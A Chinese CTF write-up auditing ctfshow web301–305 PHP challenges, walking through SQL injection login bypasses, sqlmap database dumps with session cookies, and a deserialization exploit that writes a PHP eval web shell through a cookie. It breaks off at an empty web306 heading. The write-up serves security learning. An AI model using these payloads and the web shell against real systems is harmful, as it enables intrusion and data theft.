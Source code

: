 ## 写在前面

代码审计系列

——KonDream 2022年3月10日14:47:48

## web301

关键代码：checklogin.php

```php
<?php

error_reporting(0);
session_start();
require 'conn.php';
$_POST['userid']=!empty($_POST['userid'])?$_POST['userid']:"";
$_POST['userpwd']=!empty($_POST['userpwd'])?$_POST['userpwd']:"";
$username=$_POST['userid'];
$userpwd=$_POST['userpwd'];
$sql="select sds_password from sds_user where sds_username='".$username."' order by id limit 1;";
$result=$mysqli->query($sql);
$row=$result->fetch_array(MYSQLI_BOTH);
if($result->num_rows<1){
	$_SESSION['error']="1";
	header("location:login.php");
	return;
}
if(!strcasecmp($userpwd,$row['sds_password'])){
	$_SESSION['login']=1;
	$result->free();
	$mysqli->close();
	header("location:index.php");
	return;
}
$_SESSION['error']="1";
header("location:login.php");

?>
```

前10行，在登录检查时没有对参数进行过滤导致存在sql注入，这里直接sqlmap梭

``python sqlmap.py -u http://7b4b2479-9fc9-4eed-8697-b694f2b25701.challenge.ctf.show/checklogin.php --data="userid=1*&userpwd=1" --batch -D sds -T sds_user --dump``

![image-20220310144908186](image/ctfshow-代码审计(301-310)/image-20220310144908186.png)

拿到账号密码后无法登录？？奇怪，那利用联合查询登录吧

``userid=1' union select 1#&userpwd=1``

![image-20220310145037293](image/ctfshow-代码审计(301-310)/image-20220310145037293.png)

登录成功后即可拿到flag

## web302

在判断密码处改为

```php
if(!strcasecmp(sds_decode($userpwd),$row['sds_password']))
    
<?php
function sds_decode($str){
	return md5(md5($str.md5(base64_encode("sds")))."sds");
}
?>
```

也就是说我们传入的 userpwd 会经过 sds_decode 函数处理，这里我也爆了一下数据库，账户密码和上一个题是一样的，无法正常登录，所以利用联合查询：

```php
<?php
function sds_decode($str){
	return md5(md5($str.md5(base64_encode("sds")))."sds");
}

echo sds_decode('admin');
?>
# 27151b7b1ad51a38ea66b1529cde5ee4
```

payload：``userid=1'union select '27151b7b1ad51a38ea66b1529cde5ee4'#&userpwd=admin``

登录进去即可

## web303

审计源码，在sds_user.sql中有这样一条数据

```sql
INSERT INTO `sds_user` VALUES ('1', 'admin', '27151b7b1ad51a38ea66b1529cde5ee4');
```

结合之前的sds_decode操作，显然密码就是admin，登录进去之后找注入点，继续看源码发现

```php
<?php
session_start();
require 'conn.php';
if(!isset($_SESSION['login'])){
header("location:login.php");
return;
}else{
	//注入点
	$_POST['dpt_name']=!empty($_POST['dpt_name'])?$_POST['dpt_name']:NULL;
	$_POST['dpt_address']=!empty($_POST['dpt_address'])?$_POST['dpt_address']:NULL;
	$_POST['dpt_build_year']=!empty($_POST['dpt_build_year'])?$_POST['dpt_build_year']:NULL;
	$_POST['dpt_has_cert']=!empty($_POST['dpt_has_cert'])?$_POST['dpt_has_cert']:NULL;
	$_POST['dpt_cert_number']=!empty($_POST['dpt_cert_number'])?$_POST['dpt_cert_number']:NULL;
	$_POST['dpt_telephone_number']=!empty($_POST['dpt_telephone_number'])?$_POST['dpt_telephone_number']:NULL;
	
	$dpt_name=$_POST['dpt_name'];
	$dpt_address=$_POST['dpt_address'];
	$dpt_build_year=$_POST['dpt_build_year'];
	$dpt_has_cert=$_POST['dpt_has_cert']=="on"?"1":"0";
	$dpt_cert_number=$_POST['dpt_cert_number'];
	$dpt_telephone_number=$_POST['dpt_telephone_number'];
	$mysqli->query("set names utf-8");
	$sql="insert into sds_dpt set sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
	$result=$mysqli->query($sql);
	echo $sql;
	if($result===true){
		$mysqli->close();
		header("location:dpt.php");
	}else{
		die(mysqli_error($mysqli));
	}
	
	 }

?>
```

在 add 操作中存在 insert 注入，直接 sqlmap 一把梭

``python sqlmap.py -u http://a78b07f2-18c5-4d5e-bab7-32e53633624c.challenge.ctf.show/dptadd.php --data="dpt_address=&dpt_build_year=&dpt_cert_number=&dpt_has_cert=on&dpt_name=&dpt_telephone_number=" --cookie="UM_distinctid=17ede1c056746f-0f697bd214ac7a-f791539-144000-17ede1c0568983; PHPSESSID=4lh8e8angsna8eac4v08bhuold" --batch -D sds -T sds_fl9g --dump``

![image-20220310154405140](image/ctfshow-代码审计(301-310)/image-20220310154405140.png)

## web304

增加了全局waf

```php
function sds_waf($str){
	return preg_match('/[0-9]|[a-z]|-/i', $str);
}
```

不知道这个waf有啥用，姿势和上面一样

``python sqlmap.py -u http://02fec3b4-6e26-4559-80a6-23aa6ff85e75.challenge.ctf.show/dptadd.php --data="dpt_address=&dpt_build_year=&dpt_cert_number=&dpt_has_cert=on&dpt_name=&dpt_telephone_number=" --cookie="UM_distinctid=17ede1c056746f-0f697bd214ac7a-f791539-144000-17ede1c0568983; PHPSESSID=pq9v16je24q036vm433fi79i53" --batch -D sds -T sds_flaag --dump``

## web305

多了个class.php

```php
<?php

class user{
	public $username;
	public $password;
	public function __construct($u,$p){
		$this->username=$u;
		$this->password=$p;
	}
	public function __destruct(){
		file_put_contents($this->username, $this->password);
	}
}

```

再看看checklogin.php

```php
<?php
error_reporting(0);
session_start();
require 'conn.php';
require 'fun.php';
require 'class.php';
$user_cookie = $_COOKIE['user'];
if(isset($user_cookie)){
	$user = unserialize($user_cookie);
}
```

嗯？？反序列化，而且在 class.php 中是有写文件操作的，那么我们就可以利用反序列化写马然后去读数据库

payload：

```php
<?php
class user{
	public $username;
	public $password;
	public function __construct($u,$p){
		$this->username=$u;
		$this->password=$p;
	}
}

echo urlencode(serialize(new user('kkk.php', '<?=eval($_POST[k]);?>')));

# O%3A4%3A%22user%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A7%3A%22kkk.php%22%3Bs%3A8%3A%22password%22%3Bs%3A21%3A%22%3C%3F%3Deval%28%24_POST%5Bk%5D%29%3B%3F%3E%22%3B%7D
```

带到 cookie 中去然后发包

![image-20220310160858949](image/ctfshow-代码审计(301-310)/image-20220310160858949.png)

直接上蚁剑

![image-20220310160917567](image/ctfshow-代码审计(301-310)/image-20220310160917567.png)

读数据库，真正的账号密码在conn.php中

![image-20220310160948872](image/ctfshow-代码审计(301-310)/image-20220310160948872.png)

![image-20220310160957433](image/ctfshow-代码审计(301-310)/image-20220310160957433.png)

拿到flag

## web306

























